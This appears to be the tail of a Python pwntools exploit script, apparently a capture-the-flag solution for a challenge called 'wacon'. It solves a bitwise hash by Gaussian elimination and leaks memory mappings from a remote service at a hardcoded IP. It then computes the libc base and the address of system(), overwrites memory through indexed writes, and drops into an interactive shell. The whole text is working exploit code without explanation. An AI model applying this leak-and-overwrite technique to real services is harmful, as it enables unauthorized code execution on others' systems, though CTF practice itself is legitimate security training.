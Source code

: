 ```python
    for i in range(32):
        u = 0
        for j in range(LEN * 3):
            u |= (t[j] >> i & 1) << j
        u |= (g >> i & 1) << LEN * 3
        s.append(u)
    ux = 0
    p = []
    for i in range(LEN * 3):
        t = ux
        while t < len(s) and not (s[t] >> i & 1):
            t += 1
        if t == len(s):
            continue
        s[ux], s[t] = s[t], s[ux]
        p.append(i)
        for j in range(32):
            if ux != j and (s[j] >> i & 1):
                s[j] ^= s[ux]
        ux += 1
    assert len(p) == 32
    v = list(b'0' * LEN)
    for i in range(32):
        v[p[i] // 3] ^= s[i] >> LEN * 3 << (p[i] % 3)
    return bytes(v)


# r = process(['docker', 'exec', '-i', 'wacon_test', '/root/app'])
r = remote('58.229.185.61', 10002)
g = [5, 7, 7, 7, 7, 7]
maps = []
for i in range(6):
    r.recvuntil(b'Saved : ')
    sa = int(r.recvline().strip().decode(), 16)
    oa = solvehs(g[i], sa >> 12) << 12 | g[i] << 44
    maps.append((oa, sa))
    print(hex(oa), hex(sa))

libc_base = maps[2][0] - 0x219000
system = libc_base + 0x50d60
hashkey = solvehs2(maps[0][1] >> 12)
print(hashkey, hex(hs(hashkey)))
assert hs(hashkey) == maps[0][1] >> 12

input()

r.sendlineafter(b':> ', b'2')
r.sendlineafter(b'PrivKey :> ', hashkey)
r.sendlineafter(b'Size :> ', str(0xa58).encode())

r.sendlineafter(b':> ', b'4')
r.sendlineafter(b'Index :> ', str(0x30).encode())
time.sleep(0.5)
r.send(system.to_bytes(8, 'little'))

r.sendlineafter(b':> ', b'4')
r.sendlineafter(b'Index :> ', str(0xa48).encode())
time.sleep(0.5)
r.send(b'\0' * 8)

r.sendlineafter(b':> ', b'1')
r.interactive()

```